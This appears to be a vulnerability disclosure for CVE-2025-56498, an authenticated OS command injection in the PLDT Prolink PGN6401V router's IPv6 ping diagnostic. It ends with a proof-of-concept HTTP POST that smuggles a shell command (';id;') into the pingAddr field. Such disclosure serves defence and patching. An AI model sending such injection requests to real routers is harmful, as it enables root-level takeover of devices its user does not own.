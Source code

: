 # CVE-2025-56498: OS Command Injection in PLDT Prolink PGN6401V Router

## Basic Information

| **Field** | **Value** |
| :--- | :--- |
| **CVE ID** | [CVE-2025-56498](https://www.cve.org/CVERecord?id=CVE-2025-56498) |
| **Title** | OS Command Injection in `ping6.asp` via `pingAddr` parameter |
| **Vendor** | PLDT / Prolink |
| **Product** | PLDT WiFi Router (Prolink PGN6401V) |
| **Affected Version** | Firmware V8.1.2 (other versions likely affected) |
| **Vulnerability Type** | CWE-78: OS Command Injection |
| **Impact** | Remote Code Execution (RCE) with root privileges |
| **CVSS Score** | Pending NVD Analysis |
| **Discoverer** | Jorge Patrick S. Rubio |

## Overview
An OS command injection vulnerability has been identified in the web management interface of the PLDT-supplied Prolink PGN6401V WiFi router. The vulnerability allows an authenticated attacker to execute arbitrary system commands with the highest privileges (`root`), leading to a complete compromise of the device.

## Vulnerability Details
The vulnerability resides in the IPv6 diagnostic utility of the router's web interface. The `ping6.asp` page submits user-controlled input from the `pingAddr` parameter via a POST request to `/boaform/formPing6`. This input is not properly sanitized before being passed to a system shell command, allowing for injection of arbitrary commands using shell metacharacters.

*   **Affected Component:** `ping6.asp` page and the `/boaform/formPing6` form handler.
*   **Vulnerable Parameter:** `pingAddr`
*   **Web Server:** Boa/0.93.15

## Proof of Concept (PoC)
An authenticated attacker can send a crafted HTTP POST request to exploit this vulnerability.

**Request:**
```http
POST /boaform/formPing6 HTTP/1.1
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded
Cookie: [VALID_ADMIN_SESSION_COOKIE]
Content-Length: 87

pingAddr=192.168.1.1%3Bid%3B&wanif=65535&go=+Go&submit-url=%2Fping6.asp